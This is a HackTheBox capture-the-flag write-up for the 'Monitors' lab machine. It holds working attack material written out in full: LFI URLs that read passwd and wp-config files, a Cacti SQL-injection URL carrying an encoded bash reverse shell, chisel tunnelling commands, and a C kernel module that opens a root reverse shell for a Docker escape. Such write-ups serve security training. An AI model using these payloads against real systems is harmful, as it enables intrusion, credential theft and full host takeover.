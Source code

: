 ```yaml
---
title: Monitors Writeup [HTB]
tags: [HackTheBox, Local File Inclusion, Docker, Java deserialization]
image: /assets/images/monitors/monitors.png
published: true
banner: true
---
```


Monitors is a Linux based machine that was active since April 24th of 2021 to October 9th, on this machine we will use a Local File inclusion vulnerability to get some credentials and enumerate subdomains available on the machine, with this credentials we will have access to a Cacti instance that is vulnerable to command execution through SQL injection, with that we will get a shell inside the machine, once inside we will see that docker is running and that there is a port binded to it, so using chisel we will port fortward the port to our local machine and find a OFBiz apache instance that is vulnerable to Java deserialization, exploiting this vulnerability we will get access to the docker container as root, finally we will see that this container has the capability sys_modules, which allow us to install kernel modules on the host machine, create a kernel module that will give us a shell, install it and finish with the machine.

# [](#header-1)Enumeration

We start using masscan to find all the available ports and then use nmap to get more information about them.

```bash
masscan -e tun0 --rate=500 -p 0-65535 10.10.10.238
nmap -sC -sV -p 80,22, -Pn -o scan.txt 10.10.10.238

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ba:cc:cd:81:fc:91:55:f3:f6:a9:1f:4e:e8:be:e5:2e (RSA)
|   256 69:43:37:6a:18:09:f5:e7:7a:67:b8:18:11:ea:d7:65 (ECDSA)
|_  256 5d:5e:3f:67:ef:7d:76:23:15:11:4b:53:f8:41:3a:94 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are only two ports open, SSH and a webpage, let's check the website.

![](/assets/images/monitors/website.png)

We can't access to the page, it also points us to a email where we can get a domain, let's add it to our hosts file and open it.

![](/assets/images/monitors/monitor.png)

We get to a page that talks about hardware monitoring, at the bottom of the page we can see that it is running wordpress, so using wpscan we find a plugin.

![](/assets/images/monitors/plugin.png)

We search for vulnerabilities on spritz plugin.

![](/assets/images/monitors/spritz.png)

We find a remote and local file inclusion, to exploit it we have to access to `http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../../etc/passwd`, so let's use it to get the wp-config.php file, to do it we access to `http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=../../../wp-config.php`.

![](/assets/images/monitors/wp-config.png)

We found the password of the database, but this isn't the password of admin user, since we have virtual hosting let's search if there is any other domain on the machine, on apache the file that defines these domains is located at "/etc/apache2/sites-available/000-default.conf", so let's retrieve it.

![](/assets/images/monitors/sites.png)

At the start of that file we get another subdomain, `cacti-admin.monitors.htb`, so we add it to our hosts file and access to it.

![](/assets/images/monitors/cacti.png)

# [](#header-1)Gaining Access

We got to the login page of a [cacti](https://www.cacti.net/) instance, we can login to it with the password that we found earlier, also we see that the version running is 1.2.12, searching about vulnerabilities for it we get to an issue on its [github page](https://github.com/Cacti/cacti/issues/3622), there we see some instructions to get command execution, using burp we send any request to repeater and change the URL to `http://cacti-admin.monitors.htb/cacti/color.php?action=export&header=false&filter=1')+UNION+SELECT+1,username,password,4,5,6,7+from+user_auth;update+settings+set+value='%62%61%73%68%20%2d%63%20%22%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%36%2e%34%32%2f%35%34%33%32%31%20%30%3e%26%31%22;'+where+name='path_php_binary';--+-`, and when we access to `http://cacti-admin.monitors.htb/cacti/host.php?action=reindex`, our payload `bash -c "bash -i >& /dev/tcp/10.10.16.42/54321 0>&1"` wil be executed, if your payload isn't getting executed you have to logout and login again to get a new cookie, for some reason after some tries the exploit will stop working with the same cookie.

![](/assets/images/monitors/shell1.png)

# [](#header-2)Lateral Movement

We don't need to do this in order to root the machine, but I'll show it anyways, exploring the machine we find that we have execution permissions on .backup directory on /home/marcus.

![](/assets/images/monitors/marcushome.png)

This means that there should be a file inside there that we can execute, but we don't have reading permissions, so there is no way of knowing which files are there, well even though we can't read the directory, we could still have reading permissions on the files inside there, so let's use the File Inclusion vulnerability from earlier to bruteforce this directory, some possible extensions that the files could have are sh, php and py, so let's create a file with those lines and use fuff to find any file inside there, `ffuf -u 'http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/home/marcus/.backup/W1.W2' -w ~/tools/SecLists-master/Discovery/Web-Content/raft-small-directories.txt:W1 -w extensions.txt:W2 -fs 0`.

![](/assets/images/monitors/ffuf.png)

We found a valid combination, backup.sh, so if we try to read that file we find  a password.

![](/assets/images/monitors/backup.png)

Using this password we can access through SSH as marcus and retrieve user.txt

![](/assets/images/monitors/shell2.png)

Note that extensions are not a must on Linux systems so we should've tried to use ffuf without extensions, also if we didn't have reading permissions we would had to upload the wordlist and make a script that would try to run every file inside that wordlist untill one gets executed, and then looked for a way to get the contents of that file.

# Docker access

Checking the processes one calls our attention, `/usr/bin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 8443 -container-ip 172.17.0.2 -container-port 8443`, so we upload chisel to make a port forwarding, once we have it on the machine we run `chisel_1.7.1_linux_amd64 server -p 1080 --reverse` on our machine, and `chisel client 10.10.16.42:1080 R:8443:127.0.0.1:8443` on monitors machine, we see that it's another webserver on this case running tomcat.

![](/assets/images/monitors/tomcat.png)

If we run feroxbuster on this site we get a couple of directories, but all of them redirect us to the same site, an [OFBiz](https://ofbiz.apache.org/) login page, also we see that it is running the version 17.12.01, searching about it we find that metasploit has a exploit for this version of OFBiz which exploits a deserialization vulnerability on it, so we start metasploit, set our options, set forceexploit to true, and when we run the exploit we will have a shell inside the container.

![](/assets/images/monitors/docker.png)

# Privilege Escalation/Docker Escape

We run capsh and we see something interesting.

![](/assets/images/monitors/capsh.png)

We see that we have cap_sys_module, this would allow us to escape from the container, we find this [blog](https://blog.pentesteracademy.com/abusing-sys-module-capability-to-perform-docker-container-breakout-cf5c29956edd) that explains it, in short with this capability we can install kernel modules on the host machine, so we have to create two files, one with the c code of the module and a Makefile.

subreverse.c

```c
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");
char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.10.16.42/54322 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };
static int __init reverse_shell_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit reverse_shell_exit(void) {
printk(KERN_INFO "Exiting\n");
}
module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

Makefile

```c
obj-m +=subreverse.o
all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```

We upload those files, and when we run make our kernel module files will be created.

![](/assets/images/monitors/modfiles.png)

To install our module we run "insmod subreverse.ko", and then we will get a shell as root and finish with the machine.

![](/assets/images/monitors/root.png)
